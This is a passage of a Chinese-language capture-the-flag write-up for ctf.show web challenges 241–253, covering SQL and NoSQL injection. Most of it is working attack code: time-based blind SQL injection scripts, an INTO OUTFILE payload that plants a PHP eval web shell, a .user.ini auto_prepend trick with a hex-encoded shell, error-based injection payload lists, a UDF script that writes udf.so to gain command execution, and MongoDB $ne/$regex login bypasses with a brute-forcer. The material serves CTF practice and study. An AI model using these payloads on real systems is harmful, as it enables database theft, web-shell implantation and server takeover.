match = pattern.search(response_flag.text)
if match:
print(f"[*] Found: {match.group(0)}")
exit(0)
print("[*] No flag found in the response.")web241(delete注入)
//删除记录
$sql = "delete from ctfshow_user where id = {$id}";盲注
import requests
url = "https://01d94186-8d77-44ea-a4c9-c70d61770349.challenge.ctf.show/api/delete.php"
flag = ""
i = 0
while 1:
i = i + 1
head = 32
tail = 127
while head < tail:
mid = (head + tail) >> 1
# 查数据库 banlist,ctfshow_user,flag
# payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
# 查表名 id,flag,info
# payload = "select group_concat(column_name) from information_schema.columns where table_name='flag'"
# 查数据
payload = "select flag from flag"
data = {
'id': f"if(ascii(substr(({payload}),{i},1))>{mid},sleep(0.05),1)#"
}
try:
r = requests.post(url, data=data, timeout=1)
tail = mid
except Exception as e:
head = mid + 1
if head != 32:
flag += chr(head)
print("[+] {} is right".format(chr(head)))
print(flag)
else:
break
web242(file注入)
//备份表
$sql = "select * from ctfshow_user into outfile '/var/www/html/dump/{$filename}';";
利用info outfile的扩展参数来做题
- SELECT … INTO OUTFILE ‘file_name’
[CHARACTER SET charset_name]
[export_options] - export_options:
[{FIELDS | COLUMNS}
[TERMINATED BY ‘string’]//分隔符
[[OPTIONALLY] ENCLOSED BY ‘char’]
[ESCAPED BY ‘char’]
]
[LINES
[STARTING BY ‘string’]
[TERMINATED BY ‘string’]
]
OPTION参数为可选参数选项，其可能的取值有：
FIELDS TERMINATED BY '字符串'：设置字符串为字段之间的分隔符，可以为单个或多个字符。默认值是“\t”。FIELDS ENCLOSED BY '字符'：设置字符来括住字段的值，只能为单个字符。默认情况下不使用任何符号。FIELDS OPTIONALLY ENCLOSED BY '字符'：设置字符来括住CHAR、VARCHAR和TEXT等字符型字段。默认情况不使用任何符号。FIELDS ESCAPED BY '字符'：设置转义字符，只能为单个字符。默认值为“\”。*
LINES STARTING BY '字符串'*：设置每行数据开头的字符，可以为单个或多个字符。默认情况下不使用任何字符。*
LINES TERMINATED BY '字符串'*：设置每行数据结尾的字符，可以为单个或多个字符。默认值是“\n”。
可以写马的参数有：
FIELDS TERMINATED BY、 LINES STARTING BY、 LINES TERMINATED BY
在url/api/dump.php下写马
马在url/dump/1.php
filename=1.php' LINES STARTING BY "<?php eval($_POST[1]);?>";#命令行到根目录输入
find / -name "f*" | xargs grep "ctfshow"
web243
//过滤了php先上ini：
filename=.user.ini' LINES STARTING BY ';' TERMINATED BY 0x0a6175746f5f70726570656e645f66696c653a312e6a7067;#
# auto_prepend_file:1.jpg注意16进制是为了0a(换行)发挥作用，而starting by “;”，是想让每行数据的开头字符都是分号，是为了让前面的那个
select * from ctfshow_user查出来的东西与后面的做个了断，然后上🐎
filename=1.jpg' LINES TERMINATED BY 0x3c3f3d6576616c28245f504f53545b315d293b3f3e;#
# <?=eval($_POST[1]);?>（做了半天一直403，看到有一位师傅也是一样，于是把https的s去掉就可以了）
web244(error注入 updatexml)
//备份表
$sql = "select id,username,pass from ctfshow_user where id = '".$id."' limit 1;";extractvalue(目标xml文档，xml路径):对XML文档进行查询的函数
updatexml(目标xml文档，xml路径，更新的内容):更新xml文档的函数
其都是针对xml路径进行的注入?id=1' or updatexml(1,concat(0x7e,database(),0x7e),1)+--+ # 0x7e --> ~
?id=1' or updatexml(1,concat(0x7e,substr((select group_concat(flag) from ctfshow_flag),1,32),0x7e),1)+--+
?id=1' or updatexml(1,concat(0x7e,(select left(flag,32) from ctfshow_flag),0x7e),1)+--+
?id=1' or updatexml(1,concat(0x7e,(select right(flag,32) from ctfshow_flag),0x7e),1)+--+
看到了好东西
1. floor + rand + group by
select * from user where id=1 and (select 1 from (select count(*),concat(version(),floor(rand(0)*2))x from information_schema.tables group by x)a);
select * from user where id=1 and (select count(*) from (select 1 union select null union select !1)x group by concat((select table_name from information_schema.tables limit 1),floor(rand(0)*2)));
2. ExtractValue
select * from user where id=1 and extractvalue(1, concat(0x5c, (select table_name from information_schema.tables limit 1)));
3. UpdateXml
select * from user where id=1 and 1=(updatexml(1,concat(0x3a,(select user())),1));
4. Name_Const(>5.0.12)
select * from (select NAME_CONST(version(),0),NAME_CONST(version(),0))x;
5. Join
select * from(select * from mysql.user a join mysql.user b)c;
select * from(select * from mysql.user a join mysql.user b using(Host))c;
select * from(select * from mysql.user a join mysql.user b using(Host,User))c;
6. exp()//mysql5.7貌似不能用
select * from user where id=1 and Exp(~(select * from (select version())a));
7. geometrycollection()//mysql5.7貌似不能用
select * from user where id=1 and geometrycollection((select * from(select * from(select user())a)b));
8. multipoint()//mysql5.7貌似不能用
select * from user where id=1 and multipoint((select * from(select * from(select user())a)b));
9. polygon()//mysql5.7貌似不能用
select * from user where id=1 and polygon((select * from(select * from(select user())a)b));
10. multipolygon()//mysql5.7貌似不能用
select * from user where id=1 and multipolygon((select * from(select * from(select user())a)b));
11. linestring()//mysql5.7貌似不能用
select * from user where id=1 and linestring((select * from(select * from(select user())a)b));
12. multilinestring()//mysql5.7貌似不能用
select * from user where id=1 and multilinestring((select * from(select * from(select user())a)b));
web245(extractvalue)
//无过滤
过滤updatexml这里使用extractvalue
# 查表名 ctfshow_flagsa
?id=1' or extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e))+--+
# 查列名 flag1
?id=1' or extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flagsa'),0x7e))+--+
# getFlag
?id=1' or extractvalue(1,concat(0x7e,substr((select group_concat(flag1) from ctfshow_flagsa),5,15),0x7e))+--+
?id=1' or extractvalue(1,concat(0x7e,substr((select group_concat(flag1) from ctfshow_flagsa),20,30),0x7e))+--+web246(floor)
//无过滤
过滤updatexml extractvalue这里使用floor + rand + group by 主要利用主键的重复来实现报错
Mysql报错注入之floor(rand(0)*2)报错原理探究
# 查表名 ctfshow_flags
?id=1' and (select 1 from (select count(*),concat((select table_name from information_schema.tables where table_schema=database() limit 1,1),floor(rand(0)*2))x from information_schema.tables group by x)a);--+
# 查列名 flag2
?id=1' and (select 1 from (select count(*),concat((select column_name from information_schema.columns where table_name='ctfshow_flags' limit 3,1),floor(rand(0)*2))x from information_schema.tables group by x)a) %23
# getFlag
?id=1' and (select 1 from (select count(*),concat((select flag21 from ctfshow_flags1),floor(rand(0)*2))x from information_schema.tables group by x)a) %23
web247(双查询错误注入、报错注入)
//无过滤
过滤updatexml extractvalue floorfloor()：向下取整ceil()：向上取整round()：四舍五入
floor替换成其他取整函数即可
# 查表名 ctfshow_flagsa
1' and (select 1 from (select count(*),concat((select table_name from information_schema.tables where table_schema=database() limit 1,1),ceil(rand(0)*2))x from information_schema.tables group by x)a);%23
# 查列名 flag?
1' and (select 1 from (select count(*),concat((select column_name from information_schema.columns where table_name='ctfshow_flagsa' limit 1,1),ceil(rand(0)*2))x from information_schema.tables group by x)a);%23
# getFlag
1' and (select 1 from (select count(*),concat((select `flag?` from ctfshow_flagsa),ceil(rand(0)*2))x from information_schema.tables group by x)a);%23web248(udf注入)
$sql = "select id,username,pass from ctfshow_user where id = '".$id."' limit 1;";mysql的UAF注入,简单来说就是把dll文件写到目标机子的plugin目录，这个目录是可以通过select @@plugin_dir来得到的。此外就是这题可以堆叠注入，我一开始没想到可以堆叠，以为是布尔，其实还是没理解这个UAF注入，最后的导入函数这里：
/api/?id=1'; select @@plugin_dir; -- -
查出Mysql插件路径：/usr/lib/mariadb/plugin/
/api/?id=';CREATE FUNCTION sys_eval RETURNS STRING SONAME 'udf.so';--+
引入udf.so文件从而创建函数sys_evalCREATE FUNCTION sys_eval RETURNS STRING SONAME 'udf.so'; //导入udf函数import requests
base_url = "https://49e6bca5-e443-47a8-9a15-8619fb62730f.challenge.ctf.show/api/"
payload = []
text = ["a", "b", "c", "d", "e"]
udf = ""
for i in range(0, 21510, 5000):
end = i + 5000
payload.append(udf[i:end])
p = dict(zip(text, payload))
for t in text:
url = base_url + "?id=';select unhex('{}') into dumpfile '/usr/lib/mariadb/plugin/{}.txt'--+&page=1&limit=10".format(
p[t], t) # UDF提权一般配合dumpfile 而不是outfile
r = requests.get(url)
print(r.status_code)
next_url = base_url + "?id=';select concat(load_file('/usr/lib/mariadb/plugin/a.txt'),load_file('/usr/lib/mariadb/plugin/b.txt'),load_file('/usr/lib/mariadb/plugin/c.txt'),load_file('/usr/lib/mariadb/plugin/d.txt'),load_file('/usr/lib/mariadb/plugin/e.txt')) into dumpfile '/usr/lib/mariadb/plugin/udf.so'-- +&page=1&limit=10" # 将各个txt文件合并到udf.so
rn = requests.get(next_url)
uaf_url = base_url + "?id=';CREATE FUNCTION sys_eval RETURNS STRING SONAME 'udf.so';--+" # 创建udf函数
r = requests.get(uaf_url)
nn_url = base_url + "?id=';select sys_eval('cat /flag.*');-- +&page=1&limit=10" # 执行命令并查看
rnn = requests.get(nn_url)
print(rnn.text)
web249(nosql)
$user = $memcache->get($id);Memcached get 命令获取存储在 key(键) 中的 value(数据值) ，如果 key 不存在，则返回空。
补充一下知识：
$gt : >
$lt : <
$gte: >=
$lte: <=
$ne : !=、<>
$in : in
$nin: not in
$all: all
$or:or
$not: 反匹配(1.3.3及以上版本)
模糊查询用正则式：db.customer.find({'name': {'$regex':'.*s.*'} })
/**
* : 范围查询 { "age" : { "$gte" : 2 , "$lte" : 21}}
* : $ne { "age" : { "$ne" : 23}}
* : $lt { "age" : { "$lt" : 23}}
*/
//查询age = 22的记录
db.userInfo.find({"age": 22});
//相当于：select * from userInfo where age = 22;
//查询age > 22的记录
db.userInfo.find({age: {$gt: 22}});
//相当于：select * from userInfo where age > 22;id=flag 不行，id 都是数字，尝试数组绕过得到 flag id[]=flag
web250(MongoDB)
sql语句
$query = new MongoDB\Driver\Query($data);
$cursor = $manager->executeQuery('ctfshow.ctfshow_user', $query)->toArray();
返回逻辑
//无过滤
if(count($cursor)>0){
$ret['msg']='登陆成功';
array_push($ret['data'], $flag);
}
MongoDB是NOSQL的一种，介绍一下Mongodb得两个操作符：$ne：!= 不等于$regex：正则匹配
username[$ne]=1&password[$ne]=1
username[$regex]=.&password[$regex]=.如果输入value[$ne]=1也就意味着value=array($ne=>1)，在MongoDB中，原来的一个单个目标的查询变成了条件查询。同样的，我们也可以使用username[$gt]=&password[$gt]=作为payload进行攻击。
web251
同上
web252
//sql
db.ctfshow_user.find({username:'$username',password:'$password'}).pretty()同时不能是 admin和 admin1，正则绕过
payload: username[$regex]=^[^admin].*&password[$ne]=1
web253
username=flag时返回登陆成功，但没有密码，考虑盲注爆出密码
import requests
url = 'https://2eb32fc2-5457-44b4-b948-b0c416a768c8.challenge.ctf.show/api/'
flag = ''
flag_dic = "ctfshow{}1234567890-poiuytrrewqasdfghjklmnbvcxz"
while True:
for i in flag_dic:
data = {
"username[$regex]": "flag",
"password[$regex]": f"{flag+i}",
}
response = requests.post(url, data=data)
if response.json()['msg'] == "登陆成功":
flag = flag+i
print("[+] {} is right".format(i))
print(flag)
if i == '}':
exit(0)
break